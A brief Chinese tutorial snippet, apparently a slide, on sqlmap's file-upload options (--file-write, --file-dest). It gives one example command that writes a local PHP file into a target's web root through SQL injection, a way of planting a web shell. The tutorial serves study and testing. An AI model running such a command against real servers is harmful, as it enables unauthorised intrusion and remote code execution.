

# 文件上传
参数：--file-write,--file-dest
当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

sqlmap.py -u "http://192.168.2.129/article.php?id=5" --file-write="C:\1.php" --file-dest="/var/www/html/x.php"